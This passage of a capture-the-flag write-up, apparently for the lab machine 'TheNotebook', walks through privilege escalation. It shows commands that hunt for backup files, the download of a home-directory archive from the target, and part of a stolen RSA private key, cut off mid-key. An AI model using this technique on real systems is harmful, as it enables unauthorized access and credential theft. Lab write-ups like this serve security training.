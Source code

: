 ## Privesc: `www-data` to `noah`

With access to the server, started running linpeas. One thing I have started doing is to get two reverse shells at the same time, so I can have a tool enumerating in the background while doing some manual enumeration at the same time. Remember what I said about hints before? The first thing I did was start looking for backups. I looked around some common places for backups. Then searched for archive files - which had too much-returned data. Then I looked for the word "backup" in the file and directory names using `find`.

```none
find / -name "*backup*" 2> /dev/null
```

And the results.

```none
/usr/src/linux-headers-4.15.0-135-generic/include/config/wm831x/backup.h
/usr/src/linux-headers-4.15.0-135-generic/include/config/net/team/mode/activebackup.h
/usr/src/linux-headers-4.15.0-151-generic/include/config/wm831x/backup.h
/usr/src/linux-headers-4.15.0-151-generic/include/config/net/team/mode/activebackup.h
/usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
/usr/share/bash-completion/completions/vgcfgbackup
/usr/share/sosreport/sos/plugins/ovirt_engine_backup.py
/usr/share/sosreport/sos/plugins/__pycache__/ovirt_engine_backup.cpython-36.pyc
/usr/share/man/man8/vgcfgbackup.8.gz
/lib/modules/4.15.0-135-generic/kernel/drivers/power/supply/wm831x_backup.ko
/lib/modules/4.15.0-135-generic/kernel/drivers/net/team/team_mode_activebackup.ko
/lib/modules/4.15.0-151-generic/kernel/drivers/power/supply/wm831x_backup.ko
/lib/modules/4.15.0-151-generic/kernel/drivers/net/team/team_mode_activebackup.ko
/var/backups
/sbin/vgcfgbackup
```

After reviewing the results, found something interesting in `/var/backups` - a file called `home.tar.gz`. 

```none
www-data@thenotebook:/var/backups$ ls -la
ls -la
total 64
drwxr-xr-x  2 root root  4096 Jul 31 02:56 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33585 Jul 23 14:24 apt.extended_states.0
-rw-r--r--  1 root root  3618 Feb 24 08:53 apt.extended_states.1.gz
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.2.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.3.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

I started a Python HTTP server on the target machine, and downloaded the file. Then extracted it and reviewed the contents. There was an `.ssh` folder with the following private key:

```none
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
```